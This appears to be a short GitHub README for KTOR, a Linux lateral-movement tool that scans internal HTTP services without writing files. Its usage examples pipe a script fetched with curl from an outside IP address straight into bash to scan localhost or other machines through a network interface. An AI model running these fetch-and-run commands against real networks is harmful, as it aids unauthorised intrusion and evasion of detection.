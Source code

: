# KTOR


KTOR is a tool specifically designed for lateral movement in Linux. With this tool, you can quickly scan internal HTTP services for further network penetration, achieving fileless scanning.

## Usage

`$ ./ktor.sh -h`

![alt text](./pic/image.png)


### Scan localhost


`$ curl http://10.10.16.28/ktor.sh|bash -s -- -l -p all`

![alt text](./pic/image-1.png)

### Scan other machines through the interface

`$ curl http://10.10.16.28/ktor.sh|bash -s -- -i eth0 -p 80,8080 -t 100`

![alt text](./pic/image-2.png)
